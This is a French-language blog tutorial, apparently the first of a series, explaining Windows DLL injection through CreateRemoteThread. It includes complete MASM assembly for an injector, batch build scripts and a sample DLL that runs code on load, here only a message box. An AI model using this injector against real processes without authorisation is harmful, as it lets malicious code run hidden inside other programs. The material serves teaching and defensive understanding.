 
Il existe plusieurs manières d'injecter du code dans un processus déjà en cours. Parmis celles-ci on trouve l'__injection de DLL__ (Dynamic Linked Libraires). Classiquement, les DLLs sont des exécutables qui n'ont pas de point d'entrée. Elles ne contiennent que des fonctions. Pour exécuter ces fonctions, le programme qui en a besoin doit charger la DLL en mémoire.

Si une DLL est manquante, le programme peut ne pas fonctionner correctement. Mais il est possible d'ajouter une DLL au processus en cours afin de palier à ce problème. En quoi cela est important pour un attaquant? Bien qu'une DLL n'ai pas de point d'entrée à propremement parler, il existe des méthodes pour lui faire exécuter du code; notamment au chargement/déchargement de la DLL en mémoire (auquel cas il faudra lui ajouter un point d'entrée comme on le verra par la suite). C'est ce principe qui sera utilisé pour exécuter une charge malveillante.

Il existe différentes méthodes pour injecter une DLL dans un processus en cours. Celles que je connais sont listées ci-dessous (il y en a probablement d'autres):

* __CreateRemoteThread__

* __NtCreateThreadEx__

* __Reflective DLL__

* __QueueUserAPC__

* __SetThreadContext__

* __SetWindowsHookEx__

* __RtlCreateUserThread__

L'idée est de présenter toutes ces méthodes en plusieurs articles. Dans celui-ci, je commence avec la plus simple: __CreateRemoteThread__

__CreateRemoteThread()__ est une fonction de la msdn (https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread). Il y est clairement écrit que cette fonction permet de créer un thread qui partagera le même espace d'adresses virtuelles qu'un autre processus que celui qui fait l'injection de la DLL.

La suite de fonction qu'il faut utiliser pour effectuer cette injection de DLL est présentée ci-dessous:

* __OpenProcess()__ afin d'ouvrir le processus cible dans lequel on souhaite injecter la DLL

* __VirtualAllocEx()__ afin d'allouer une zone mémoire (avec les bonnes permissions: RWE) pour le chargement de la DLL

* __WriteProcessMemory()__ afin d'écrire des données dans la zone mémoire allouée précédemment

* __CreateRemoteThread()__ afin de créer le thread et donc le chargement de la DLL dans la mémoire du process cible


Pour ouvrir le processus cible, on va utiliser la fonction __OpenProcess()__. Pour cela on a besoin du PID du processus cible. Le processus cible sera ouvert avec le maximum de droit d'accès afin de pouvoir le manipuler correctement (__PROCESS ALL ACCESS__). Le code suivant fait cela:

```
_openProcess:
	mov 		eax, PID
	push 		eax
	push 		0
	push 		1F0FFFh ; PROCESS_ALL_ACCESS
	call 		OpenProcess
	cmp 		eax, 0
	jz 		_exit
	mov 		[hProcess], eax
```

Pour allouer la zone mémoire dans l'espace d'adresse du processus cible, on récupère le handle obtenu grâce à la fonction __OpenProcess__, puis on lui assigne les permissions RWE, ainsi que le type d'allocation et la taille de la zone mémoire. Le code ci-dessous permet cela:

```
_virtualAllocEx:
	push 		40h ; PAGE_EXECUTE_READWRITE
	push 		3000h ; MEM_RESERVE or MEM_COMMIT
	push 		sizeof dllPath
	push  		0
	push 		hProcess
	call 		VirtualAllocEx
	cmp 		eax, 0
	jz 		_exit
	mov 		[baseAddr], eax

```

Il s'agit ensuite d'écrire dans la zone mémoire. Pour cela, on fourni l'adresse de base de la zone mémoire obtenue grâce à la fonction __VirtualAllocEx__ ainsi que le handle vers le processus cible. Le code ci-dessous présente cela:

```
_writeProcessMemory:
	push 		0
	push 		sizeof dllPath
	push 		offset dllPath
	push 		baseAddr
	push 		hProcess
	call 		WriteProcessMemory
	cmp 		eax, 0
	jz 		_exit
```

Ceux qui ont lu la msdn de __CreateRemoteThread()__ ont vu qu'il y avait un paramètre un peu "tricky". Il s'agit de __lpStartAddress__. A quoi ce paramètre correspond-t-il? Il faut savoir que la fonction __CreateRemoteThread()__ ne permet pas d'injecter que des DLLs. Même, sa fonction première est tout simplement d'injecter du code. Ainsi ce paramètre spécifie l'adresse de la fonction qui doit être executée dans le processus cible.

Comment faire pour lui dire de charger en mémoire une DLL? Il existe pour cela une fonction de la msdn: __LoadLibrary()__ (https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) qui se trouve dans la DLL __kernel32.dll__. Le paramètre __lpStartAddress__ contiendra donc l'adresse de __LoadLibrary()__ que l'on va retrouver grâce à la fonction __GetProcAddress()__ également présente dans la DLL __kernel32.dll__:

```
.data
	sKrnl32		db "kernel32.dll", 0
	sLoadLib 	db "LoadLibraryA", 0

.data?
	hKrnl32Addr 	dd ?
 	hLoadLibAddr 	dd ?

.code

_getModuleHandle:
	push 		offset sKrnl32
	call 		GetModuleHandleA
	cmp 		eax, 0
	jz	 	_exit
	mov 		[hKrnl32Addr], eax

_getProcAddress:
	push 		offset sLoadLib
	push		hKrnl32Addr
	call 		GetProcAddress
	cmp 		eax, 0
	jz  		_exit
	mov 		[hLoadLibAddr], eax
```

Le code complet qui permet d'injecter la DLL __inject.dll__ dans le processus dont le PID est 11364 est présenté ci-dessous:

<details><summary><font color="red">Ici se trouve le code permettant de faire de l'injection de DLL via CreateRemoteThread()</font></summary>
<p>

```
.586
.model flat, stdcall


; kernel32.dll
GetLastError PROTO STDCALL
ExitProcess PROTO STDCALL :DWORD
OpenProcess PROTO STDCALL :DWORD,:DWORD,:DWORD
VirtualAllocEx PROTO STDCALL :DWORD,:DWORD,:DWORD,:DWORD,:DWORD
WriteProcessMemory PROTO STDCALL :DWORD,:DWORD,:DWORD,:DWORD,:DWORD
GetModuleHandleA PROTO STDCALL :DWORD
GetProcAddress PROTO STDCALL :DWORD,:DWORD
CreateRemoteThread PROTO STDCALL :DWORD,:DWORD,:DWORD,:DWORD,:DWORD,:DWORD,:DWORD


.data
	dllPath 	db "C:\Users\User 1\Desktop\inject.dll",0
	sKrnl32 	db "kernel32.dll",0
	sLoadLib	db "LoadLibraryA",0
	PID 		dd 11364

.data?
    	hProcess 	dd ?
 	nSizeDLL 	dd ?
 	baseAddr	dd ?
 	hKrnl32Addr 	dd ?
 	hLoadLibAddr 	dd ?

.code

Start PROC

_openProcess:
	mov 		eax, PID
	push 		eax
	push 		0
	push 		1F0FFFh ; PROCESS_ALL_ACCESS
	call 		OpenProcess
	cmp 		eax, 0
	jz 		_exit
	mov 		[hProcess], eax
	
_virtualAllocEx:
	push 		40h ; PAGE_EXECUTE_READWRITE
	push 		3000h ; MEM_RESERVE or MEM_COMMIT
	push 		sizeof dllPath
	push  		0
	push 		hProcess
	call 		VirtualAllocEx
	cmp 		eax, 0
	jz 		_exit
	mov 		[baseAddr], eax

_writeProcessMemory:
	push 		0
	push  		sizeof dllPath
	push 		offset dllPath
	push 		baseAddr
	push 		hProcess
	call 		WriteProcessMemory
	cmp 		eax, 0
	jz 		_exit

_getModuleHandle:
	push 		offset sKrnl32
	call 		GetModuleHandleA
	cmp 		eax, 0
	jz	 	_exit
	mov 		[hKrnl32Addr], eax

_getProcAddress:
	push 		offset sLoadLib
	push		hKrnl32Addr
	call 		GetProcAddress
	cmp 		eax, 0
	jz  		_exit
	mov 		[hLoadLibAddr], eax

_createRemoteThread:
	push 		0
	push 		0
	push  		baseAddr
	push 		hLoadLibAddr
	push 		0
	push 		0
	push 		hProcess
	call 		CreateRemoteThread
	cmp 		eax, 0
	jz 		_exit


_exit:
	xor eax, eax
	push eax
	call ExitProcess
	

Start ENDP
END
```
</p>
</details>

Ce code est compilé et linké avec le compilateur __ml.exe__ de Microsoft. Le fichier .bat qui permet de le compiler est présenté ci-dessous:

```
@echo off

set /p prog=[+] nom du programme a compiler (sans extension): 

if exist %prog%.exe del %prog%.exe

"C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Tools\MSVC\14.23.28105\bin\Hostx64\x86\ml.exe" %prog%.asm /link /subsystem:console /defaultlib:"C:\Program Files (x86)\Windows Kits\10\Lib\10.0.18362.0\um\x86\ntdll.lib" /defaultlib:"C:\Program Files (x86)\Windows Kits\10\Lib\10.0.18362.0\um\x86\kernel32.lib" /defaultlib:"C:\Program Files (x86)\Windows Kits\10\Lib\10.0.18362.0\um\x86\User32.lib" /defaultlib:"C:\Program Files (x86)\Windows Kits\10\Lib\10.0.18362.0\um\x86\AdvAPI32.Lib" /defaultlib:"C:\Program Files (x86)\Windows Kits\10\Lib\10.0.18362.0\um\x86\NetAPI32.Lib" /entry:Start /out:%prog%.exe

del %prog%.obj

pause
```


Qu'en est-t-il de la __DLL inject.dll__ qui doit être injectée dans le processus cible?

Comme je l'ai dit précédemment, une DLL peut exécuter du code au chargement/déchargement. On va opter pour une exécution de code au chargement. En effet, une DLL qui contient normalement des fonctions qui peuvent être appelées par un programme. Le programme cible n'aurait aucune raison d'appeler une des fonctions malveillante de notre DLL. C'est pourquoi il faut que le code s'exécute au chargement/déchargement en mémoire de la DLL.

Voici comment se code une DLL en assembleur:

```
LibMain PROC hInstDLL:DWORD, reason:DWORD, unused:DWORD
	.if reason == 1 ; DLL_PROCESS_ATTACH
		; do something when attached to process
		nop

	.elseif reason == 3 ; DLL_THREAD_DETACH
		; do something when detached from thread
		nop

	.elseif reason == 2 ; DLL_THREAD_ATTACH
		; do something when attached to thread
    		nop   
    
	.elseif reason == 0 ; DLL_PROCESS_DETACH
		; do something when detached from process
      		nop
	.endif

    	ret

LibMain ENDP
```

Pour plus de détails concernant le point d'entrée d'une DLL, lire la msdn (https://docs.microsoft.com/en-us/windows/win32/dlls/dllmain). 

Comme on souhaite exécuter le code au chargement de la DLL dans l'espace mémoire du processus cible, le code malveillant sera placé dans le __DLL PROCESS ATTACH__. Plutôt que d'écrire "salement" le code dans cette partie de la DLL, on va ajouter une fonction à cette DLL comme cela se fait classiquement. Ainsi le code qui sera dans le __DLL PROCESS ATTACH__ sera simplement un __call__ à notre fonction.

Le code qui permet de faire cela est présenté ci-dessous:

<details><summary><font color="red">Ici se trouve le code permettant de coder une DLL en assembleur</font></summary>
<p>
```
.586
.model flat, stdcall

; kernel32.dll
MessageBoxA PROTO STDCALL :DWORD,:DWORD,:DWORD,:DWORD

.data
	sTitle      	db  'h4ck', 0
    	sMsg		db  'H4ck', 0

.data?
    	hInstance dd ?

.code

LibMain PROC hInstDLL:DWORD, reason:DWORD, unused:DWORD
	.if reason == 1 ; DLL_PROCESS_ATTACH
        	call _MessageBox

    	.elseif reason == 3 ; DLL_THREAD_DETACH
		nop

    	.elseif reason == 2 ; DLL_THREAD_ATTACH
    		nop   
    
    	.elseif reason == 0 ; DLL_PROCESS_DETACH
      		nop
    	.endif

    	ret
LibMain ENDP


_MessageBox PROC
        push       0
        push       offset sTitle
        push       offset sMsg
        push       0 
        call       MessageBoxA

    	ret

_MessageBox ENDP

END
```
</p>
</details>

Pour compiler et linker, j'utilise le code suivant:

```
@echo off

set /p prog=[+] nom du programme a compiler (sans extension): 

if exist %prog%.dll del %prog%.dll

"C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Tools\MSVC\14.23.28105\bin\Hostx64\x86\ml.exe" %prog%.asm /link /subsystem:windows /DLL /defaultlib:"C:\Program Files (x86)\Windows Kits\10\Lib\10.0.18362.0\um\x86\ntdll.lib" /defaultlib:"C:\Program Files (x86)\Windows Kits\10\Lib\10.0.18362.0\um\x86\kernel32.lib" /defaultlib:"C:\Program Files (x86)\Windows Kits\10\Lib\10.0.18362.0\um\x86\User32.lib" /defaultlib:"C:\Program Files (x86)\Windows Kits\10\Lib\10.0.18362.0\um\x86\AdvAPI32.Lib" /defaultlib:"C:\Program Files (x86)\Windows Kits\10\Lib\10.0.18362.0\um\x86\NetAPI32.Lib" /entry:LibMain /out:%prog%.dll

del %prog%.obj

pause
```

Qu'en est-il de la pratique. Pour l'exemple, je vais utiliser le programme cible __HxD__ (qui permet de faire de l'édition de code hexa)

![image alt text](/images/dll-injection/injectDLL_createRemoteThread.png)

La visualisation des DLLs chargées en mémoire par HxD est effectuée avec __ProcessHacker__.

Il est possible d'injecter une DLL dans ce processus car l'utilisateur qui exécute le code malveillant a les mêmes droit que celui qui a lancé HxD. De plus, il s'agit là d'un code d'exploitation x86 et d'une DLL x86. Il est donc logique que l'on ne puisse injecter que dans des processus x86. Il n'y pas de difficulté pour l'adapter à du x64. Ceux qui ont des difficultés pour cela peuvent me contacter.

On constate également que le processus n'a pas de protection contre le chargement de DLLs non signées.

![image alt text](/images/dll-injection/injectDLL_createRemoteThread_policy.png)

L'ensemble de ces pre-requis permet d'injecter une DLL dans ce processus. 

Lorsqu'un EDR (Endpoint Detection and Response) ou un rootkit userland est présent sur un système, il n'est pas rare que celui-ci injecte une DLL dans tous les processus qui sont lancés. Cela lui permet d'exécuter son propre code, mais aussi de "hooker" certaines fonctions. Cela lui est possible car il est généralement exécuter avec le maximum de droit et permission possible.
